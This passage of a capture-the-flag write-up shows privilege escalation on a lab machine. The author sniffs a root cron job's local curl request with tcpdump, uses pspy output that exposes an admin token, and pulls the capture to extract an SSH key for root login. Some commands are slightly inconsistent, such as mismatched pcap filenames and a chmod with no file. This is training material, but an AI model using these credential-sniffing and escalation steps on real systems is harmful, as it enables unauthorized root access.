 Attempts to curl it as the www-data user fail and are met with a message stating it only interacts with the root user. Attempts to tunnel the internal port back to the target machine and curl as root there failed. So tcpdump was identified installed and used to capture the curl request. The resulting packet capture was transferred to the attacking machine and opened in wireshark.

- run tcpdump in one terminal
  
     ```bash
     tcpdump -i any -s 0 -w 1.pcap
     # my relative path is `/var/www/html/
     #reason being I can wget the pcap without terminating the tcpdump
     ```

- run pspy on 2nd terminal
  
     ```bash
     www-data@incognito:/tmp$ ./ps*
     ./ps*
     pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


          ██▓███    ██████  ██▓███ ▓██   ██▓
     ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
     ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
     ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
     ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
     ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
     ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
     ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                    ░           ░ ░     
                                   ░ ░     

     # wait till these shows up again
     1/07/21 00:18:01 CMD: UID=0    PID=1830   | curl http://127.0.0.1:1027/?admin=ScadfwerDSAd_343123ds123dqwe12                                                       
     2021/07/21 00:18:01 CMD: UID=0    PID=1829   | /bin/sh /root/req.sh 
     2021/07/21 00:18:01 CMD: UID=0    PID=1828   | /bin/sh -c /root/req.sh 
     ```

- wget the pcap file
  
     ```zsh
     wget MACHINE_IP/traffic.pcap
     ```

- open `pcap` file with wireshark
     ![img](https://i.imgur.com/63l0roF.png)
- copy the key
     ![img](https://i.imgur.com/4CYUtN7.png)
- save the `ssh` key

     ```bash
     vi key.ssh                         # put the content
     chmod 600                          #require for SSH key security
     ssh -i key.ssh root@MACHINE_IP     # you logged in as root
     ```
